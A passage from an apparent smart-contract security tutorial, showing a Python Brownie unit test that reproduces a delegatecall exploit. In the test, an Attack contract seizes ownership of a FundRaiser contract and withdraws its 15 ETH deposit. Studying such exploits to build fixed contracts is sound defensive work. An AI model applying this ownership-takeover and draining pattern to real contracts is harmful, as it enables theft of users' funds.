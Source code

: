 
### How to test

Let's have a unit test reproducing this scenario:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/maintests/delegatecall/test_delegatecall.py title=/tests/delegatecall/test_delegatecall.py
import pytest
from brownie import exceptions
from scripts.delegatecall.deploy_and_attack import (
    deploy_attack,
    deploy_fund_raiser,
    deploy_fund_raiser_fixed,
    deploy_owner_fixed,
    deploy_owner_service,
)
from scripts.utils import get_attacker_account, get_user_account
from web3 import Web3


def test_delegatecall_attack():
    # 0. Deploy all contracts and send some funds over to the FundRaiser contract
    owner_service_contract = deploy_owner_service()
    fund_raiser_contract = deploy_fund_raiser(owner_service_contract.address)
    attack_contract = deploy_attack(fund_raiser_contract.address)

    tx = fund_raiser_contract.deposit(
        {"from": get_user_account(), "value": Web3.toWei(15, "ether")}
    )
    tx.wait(1)

    print(
        f"User has deposited {fund_raiser_contract.balance() / 10**18} ETH to FundRaiser"
    )

    print(f"FundRaiser owner is '{fund_raiser_contract.owner()}'")

    # 1. Call attack method of the Attack smart contract
    attack_tx = attack_contract.attack({"from": get_attacker_account()})
    attack_tx.wait(1)

    assert fund_raiser_contract.owner() == attack_contract.address
    assert fund_raiser_contract.balance() / 10**18 == 15
    assert attack_contract.balanceOf() / 10**18 == 0

    # 2. Withdraw the FundRaiser balance to Attack smart contract
    withdraw_tx = attack_contract.withdraw({"from": get_attacker_account()})
    withdraw_tx.wait(1)

    #  highlight-next-line
    assert fund_raiser_contract.balance() / 10**18 == 0
    # highlight-next-line
    assert attack_contract.balanceOf() / 10**18 == 15

```
